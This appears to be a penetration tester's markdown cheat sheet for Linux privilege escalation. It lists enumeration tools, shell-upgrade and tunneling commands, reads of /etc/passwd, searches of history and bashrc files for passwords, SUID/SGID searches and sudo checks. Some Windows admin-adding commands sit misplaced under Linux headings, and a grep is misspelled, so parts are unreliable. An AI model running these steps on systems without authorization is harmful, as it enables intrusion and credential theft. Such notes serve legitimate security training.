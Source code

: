 # Linux Privilege Escalation

## <a href='https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/' target="blank">Basic Linux Privilege Escalation</a>

## <a href='https://gtfobins.github.io/' target="blank">GTFOBins</a>

## <a href='https://github.com/DominicBreuker/pspy' target="blank">pspy</a>

## Automated Enumeration

``` bash
git clone https://github.com/rebootuser/LinEnum.git
```

``` bash
git clone https://github.com/diego-treitos/linux-smart-enumeration
```

``` bash
git clone https://github.com/pentestmonkey/unix-privesc-check.git
```

``` bash
./unix-privesc-check
./unix-privesc-check standard > output.txt
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```

## Information Gathering

### What's the OS? What version? What architecture?

``` bash
cat /etc/issue
cat /etc/*-release
uname -i
lsb_release -a (Debian based OSs)
```

### Who are we? Where are we?

``` bash
id
whoami
pwd
```

### Who uses the box? What users? (And which ones have a valid shell)

``` bash
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```

### What's currently running on the box? What active network services are there?

``` bash
ps aux
netstat -antup
```

### What's installed? What kernel is being used?

``` bash
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## Check sudo access 

``` bash
$ sudo -l
[sudo] password for Hades: 
Matching Defaults entries for pentesterlab on 7358cafc3ebe:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User Hades may run the following commands:
    (victim) /bin/bash
```

Mix cp/chown and chmod

https://www.adampalmer.me/iodigitalsec/2009/10/03/linux-c-setuid-setgid-tutorial/

https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

``` bash
sudo -l
Matching Defaults entries for Hades:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User Hades may run the following commands:
    (victim) /bin/chmod, /bin/cp
```

## Check Scheduled Tasks

``` bash
ls -lah /etc/cron*
cat /etc/crontab
```

## Readable/Writable Files and Directories

``` bash
find / -writable -type d 2>/dev/null
```

## Check history, bashrc, backup

``` bash
find / -name *history* 2>/dev/null
find / -name *bashrc* -exec grep passwod {} \; 2>/dev/null
```

## Add Local Admin User

``` bash
net user /add pentest Pass
net localgroup administrators pentest /add
```

## Binaries That AutoElevate

``` bash
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```

## Unmounted Disks

``` bash
cat /etc/fstab
/bin/lsblk
mount
```

## cat /etc/fstab /bin/lsblk mount

``` bash
lsmod
/sbin/modinfo libata
```